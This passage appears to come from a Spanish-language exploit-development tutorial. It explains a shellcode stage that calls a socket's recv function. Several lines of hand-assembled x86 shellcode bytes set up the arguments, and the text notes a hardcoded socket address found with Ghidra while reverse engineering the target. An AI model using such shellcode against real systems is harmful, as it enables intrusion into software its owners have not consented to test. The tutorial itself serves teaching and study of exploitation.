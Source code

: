 ![paste](./images/108.jpeg)

## ***LLamando á recv*** 

Ahora si procedemos a hacer la llamada al socket pero antes debemos de darle el formato que el quiere, o mas bien que necesita 

``` python
#Format
recv += b"\x54"                 #   push esp
recv += b"\x5b"                 #   pop ebx
recv += b"\x66\x83\xc3\x64"     #   add bx, 0x64
recv += b"\x53"                 #   push ebx
recv += b"\x56"                 #   push esi
recv += b"\xa1\xac\x82\x90\x71" #   mov eax, [0x719082ac]
```

Para la llamada necesitamos decirle la dirección de memoria en la cual se encuentra nuestro socket, lo podemos encontrar rápidamente con ghidra cuando se estaba haciendo la ingeniería inversa 

```python
recv += b"\xa1\xac\x82\x90\x71" #   mov eax, [0x719082ac]
```

![paste](./images/109.jpeg)
